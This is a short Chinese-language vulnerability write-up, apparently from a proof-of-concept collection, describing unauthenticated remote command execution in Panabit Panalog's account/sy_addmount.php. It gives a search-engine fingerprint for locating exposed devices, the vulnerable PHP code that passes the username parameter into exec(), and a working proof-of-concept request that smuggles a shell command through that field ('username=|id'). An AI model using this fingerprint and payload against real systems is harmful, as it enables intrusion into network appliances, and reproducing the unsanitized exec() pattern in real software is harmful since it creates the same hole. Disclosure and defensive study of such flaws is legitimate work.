 # 

# Panabit Panalog sy_addmount.php 远程命令执行漏洞

## 漏洞描述

Panabit Panalog sy_addmount.php过滤不足，导致远程命令执行漏洞

## 漏洞影响

```
Panabit Panalog
```

## 网络测绘

```
body="Maintain/cloud_index.php"
```

## 漏洞复现

登录页面

![image-20230314084818630](images/image-20230314084818630.png)

存在漏洞的代码为 account/sy_addmount.php

```
<?php

include(dirname(__FILE__)."/../common.php");

$username = isset($_REQUEST["username"]) ? $_REQUEST["username"] : "";
if (empty($username)) {
	echo '{"success":"no", "out":"NO_USER"}';
	exit;
}

$username = addslashes($username);

$rows = array();

$cmd = PANALOGEYE." behavior add account=$username";
exec($cmd, $out, $ret);
echo $out[0];
exit;
```

其中没有对身份进行鉴权，且 username 可控，构造POC

```
POST /account/sy_addmount.php

username=|id
```

![image-20230314084851344](images/image-20230314084851344.png)
